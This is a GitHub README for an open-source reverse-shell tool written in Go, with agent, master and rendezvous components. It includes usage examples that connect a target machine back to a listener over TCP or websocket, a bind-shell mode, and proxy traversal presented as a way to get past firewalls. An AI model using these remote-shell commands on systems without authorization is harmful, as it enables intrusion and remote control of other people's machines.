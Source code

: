 ## A simple reverse-shell written in Go

[![Build Status](https://travis-ci.org/maxlaverse/reverse-shell.svg?branch=master)](https://travis-ci.org/maxlaverse/reverse-shell)
[![Code Coverage](https://codecov.io/gh/maxlaverse/reverse-shell/branch/master/graph/badge.svg)](https://codecov.io/gh/maxlaverse/reverse-shell)


**Disclaimer: This project is for research purposes only, and should only be used on authorized systems.**

---

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

A reverse shell is also really useful when you're playing with your SSH server and want to have a backup plan
in case of misconfiguration.

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `master` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and masters meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/maxlaverse/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Agent
```bash
Starts an agent listening for remote commands. The Agent can receive remote commands is various ways.

Usage:
  reverse-shell-agent [command]

Available Commands:
  help        Help about any command
  stdin       Agent that listens for command on stdin
  tcp         Agent that connects to a remove tcp endpoints and listen for commands
  tcpdirect   Agent that listens for commands on a local port
  websocket   Agent that connects to a websocket endpoints and wait for commands

Flags:
  -h, --help          help for reverse-shell-agent
  -v, --verbose int   Be verbose on log output

Use "reverse-shell-agent [command] --help" for more information about a command.
```

### stdin
Absolutely useless. It's basically just piping *stdin* to a process on the same machine.
```bash
Usage:
  agent [OPTIONS] stdin
```

### tcp
Connect to a remote host and execute every command received from it.
```bash
Usage:
  agent [OPTIONS] tcp [tcp-OPTIONS]

[tcp command options]
      -A, --address= Address [$ADDRESS]
```

Use the `listen` master command on a remote host to wait for connection:
```bash
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ agent tcp -A 1.2.3.4:7777
```

### tcpdirect
Listen to a tcp port and execute every command received by a master.
```bash
Usage:
  agent [OPTIONS] tcpdirect [tcp-OPTIONS]

  [tcpdirect command options]
        -P, --port= Port [$PORT]
```

You can connect to it using netcat:
```bash
# On the agent (1.2.3.4)
$ agent tcpdirect -P 7777

# On the master
$ nc 1.2.3.4 7777
```

### websocket
Connect to a remote websocket and execute every command received.
The remote host can be a `master` or a `rendezvous`.
```bash
Usage:
  agent [OPTIONS] websocket [websocket-OPTIONS]

[websocket command options]
      -U, --url=  Url of the rendez-vous point. [$URL]
```

```bash
# On the master (1.2.3.4)
$ master listen -P 7777

# On the agent
$ agent websocket -U http://1.2.3.4:7777
```

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a `rendezvous` point instead of a master.

You can also connect to the outside using a proxy:
```bash
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777
```

## Rendez-vous
The `rendezvous` is an http server listening for `agents` and `masters`.
It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```bash
Usage:
  rendezvous [OPTIONS]

Application Options:
  -P, --port= Port [$PORT]
```

Start the `rendezvous` and the `agent`:
```bash
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777
```

Open a shell and send some commands
```bash
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$
```

# Master
```bash
Usage:
  master [OPTIONS] <command>

Help Options:
  -h, --help  Show this help message

Available commands:
  attach         attach to an existing session
  create         create a new session on a given agent
  list-agents    list all the agents available on a rendez-vous
  list-sessions  list all the sessions available on a rendez-vous
  listen         listen for agents to connect using websocket
```

## Todo
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one
